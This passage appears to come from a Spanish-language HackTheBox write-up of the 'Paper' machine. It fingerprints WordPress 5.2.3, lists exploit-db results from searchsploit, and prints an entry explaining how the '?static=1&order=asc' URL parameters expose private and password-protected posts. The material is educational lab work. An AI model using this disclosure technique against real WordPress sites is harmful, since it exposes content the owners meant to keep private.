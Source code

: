 Vemos que estamos ante un **`Wordpress`** de version **`5.2.3`**, por lo que podemos tratar de localizar vulnerabilidades con **`searchsploit`**.

```console
p3ntest1ng:~$ searchsploit wordpress 5.2.3
----------------------------------------------------------------------------- -------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- -------------------------------
WordPress Core 5.2.3 - Cross-Site Host Modification                          | php/webapps/47361.pl
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts      | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                      | php/dos/47800.py
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities          | php/webapps/39553.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection                    | php/webapps/44943.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection                  | php/webapps/48918.sh
----------------------------------------------------------------------------- -------------------------------
Shellcodes: No Results
```
Nos movemos al directorio donde tenemos instalado **`exploitdb`** para localizar el archivo de la segunda vulnerabilidad.

```console
p3ntest1ng:~$ cd /opt/exploitdb/exploits/multiple/webapps
p3ntest1ng:~$ cat 47690.md
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: 47690.md
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ So far we know that adding `?static=1` to a wordpress URL should leak its secret content
   2   │ 
   3   │ Here are a few ways to manipulate the returned entries:
   4   │ 
   5   │ - `order` with `asc` or `desc`
   6   │ - `orderby`
   7   │ - `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format
   8   │ 
   9   │ 
  10   │ In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Esta versión de Wordpress es vulnerable y con ello podemos filtrar información tal y como se indica en el documento:

![CVE](/assets/images/hackthebox/machines/paper/cve-wp.png)
